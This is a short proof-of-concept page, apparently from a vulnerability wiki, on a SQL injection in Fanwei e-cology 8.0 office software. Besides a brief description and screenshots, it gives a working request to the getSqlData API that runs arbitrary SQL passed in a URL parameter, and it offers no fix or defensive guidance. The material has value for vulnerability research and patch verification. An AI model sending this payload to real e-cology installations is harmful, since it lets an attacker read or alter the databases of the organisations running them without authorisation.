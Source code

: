 # Panwei OA E-Cology getSqlData SQL injection vulnerability

## Vulnerability Description

Fanwei e-cology is an OA office system specially made for large and medium-sized enterprises, and supports PC, mobile and WeChat offices to work simultaneously.
Panwei e-cology has SQL injection vulnerability. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Fanwei e-cology 8.0</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1636962061131-2d870e8d-e15c-4864-8d36-69bd1f57d746.png)

Verify POC

```php
/Api/portal/elementEcodeAddon/getSqlData?sql=select%20@@version
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20220331145537127.png)